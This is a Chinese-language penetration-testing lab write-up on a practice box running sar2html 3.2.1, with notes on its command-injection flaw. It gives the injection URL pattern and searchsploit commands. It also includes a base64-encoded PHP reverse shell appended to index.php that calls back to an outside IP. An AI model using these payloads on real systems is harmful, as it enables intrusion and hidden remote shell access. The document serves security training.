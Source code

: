 ![](/images/sar--打靶笔记/1752587179099.png)

version3.2.1，绝配！

‍

  
  
**·** **80——RCE** **·**  

两个都下下来看看

    
    
    searchsploit-m47204  
    searchsploit-m49344

![](/images/sar--打靶笔记/1752587179208.png)

**利用** 方法：`http://<ipaddr>/index.php?plot=;<command-here>`

**回显： "**os"处会被替换为执行的命令，"Select Host"展开后会发现执行结果

eg：

![](/images/sar--打靶笔记/1752587179282.png)

‍

尝试直接bash反弹shell失败，发现`&`符号被过滤了还是啥情况。

‍

尝试使用49344.py现成的利用

利用时发现了一个很搞笑的问题：因为注释在前面，因此`#!/usr/bin/env python`实际上并不是第一行，会导致运行错误。

![](/images/sar--打靶笔记/1752587179339.png)

不过还是有报错，懒了。回去吧（)

‍

`ls -liah`：

![](/images/sar--打靶笔记/1752587179452.png)

尝试在 index.php 中加入php的一句话反弹shell

    
    
    echo cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE5Mi4xNjguOS4xNTAiLDEyMzQ1KTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOyc= | base64-d >>index.php

![](/images/sar--打靶笔记/1752587179647.png)

啊？

‍

尝试了wget远程下载shell，发现不能附加执行权限，导致下载shell也没用。
